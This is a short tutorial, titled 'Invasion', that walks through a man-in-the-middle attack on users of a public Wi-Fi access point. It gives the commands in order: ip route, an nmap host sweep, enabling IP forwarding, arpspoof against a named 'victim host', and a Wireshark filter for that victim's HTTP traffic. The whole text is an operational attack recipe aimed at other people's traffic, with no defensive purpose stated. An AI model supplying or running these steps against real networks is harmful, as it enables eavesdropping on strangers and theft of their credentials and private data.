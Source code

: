 1: Invasion (This only works if you are trying to access a public WI-FI access point)

Requirements: Kali Linux or other Linux with required tools installed, Nmap, Arpspoof, and Wireshark

Step 1: Connect to the target network and run the following command in the terminal:

```
ip route
```

Step 2: Next step is to use nmap to find the different hosts connected to the network by executing the following command:

```
nmap -sP -n "gateway address/ip range"
```

Step 3: Enable IP forwarding using the command:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Step 4: To get victim traffic on our device, we will be using arpspoof command. For arpspoof command we require to know the interface on which we carry out the attack, for that run the following command:

```
ifconfig
```

Now run the following command:

```
arpspoof -i wlp3s0 -t "victim host ip address" -r "our ip address"
```

Step 5: Finally to intercept the victim’s traffic we are going to use Wireshark and all we have to do is use the victim’s IP Address. Let’s say we only want to have HTTP traffic, we can use the following query:

```
http && ip.addr == "victim's ip address"
```
